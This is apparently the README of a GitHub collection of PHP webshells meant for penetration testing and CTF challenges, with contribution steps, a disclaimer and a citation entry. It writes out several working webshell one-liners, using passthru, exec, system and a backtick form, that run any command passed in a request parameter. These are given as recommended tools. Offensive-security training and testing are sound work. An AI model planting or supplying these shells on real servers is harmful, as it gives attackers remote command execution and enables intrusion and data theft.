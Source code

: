 Contributing
============

To contribute other shells not listed here... Fork, Push the changes to your repo, then before you request for a Pull, make sure to include a simple description of your **php** web-shell and include a screen-shot of the web-shell (as hosted in your localhost).

PHP Webshells
=============

Common PHP shells is a collection of PHP webshells that you may need for your penetration testing (PT) cases or in a CTF challenge. 

Do not host any of the files on a publicly-accessible webserver (unless you know what you are up-to).

These are provided for education purposes only and legitimate PT cases.

I'll keep updating the collection whnever I stumble on any new webshell.

FYI
====


For basic features, I recommend one-liners like :

`<?php echo passthru($_GET['cmd']); ?>`

`<?php echo exec($_POST['cmd']); ?>`

`<?php system($_GET['cmd']); ?>`

`<?php passthru($_REQUEST['cmd']); ?>`

smallest one-liners
===
`` is  backtick character anything b/w this excute directly many developer unaware about this
'<?=`$_GET[C]`?>'


Cite:
=====

```
@software{jacques_pharand_2020_3748072,
  author       = {Jacques Pharand and
                  John Troon and
                  Javier Izquierdo Vera},
  title        = {JohnTroony/php-webshells: Collection CS1},
  month        = apr,
  year         = 2020,
  publisher    = {Zenodo},
  version      = {1.1},
  doi          = {10.5281/zenodo.3748072},
  url          = {https://doi.org/10.5281/zenodo.3748072}
}

```
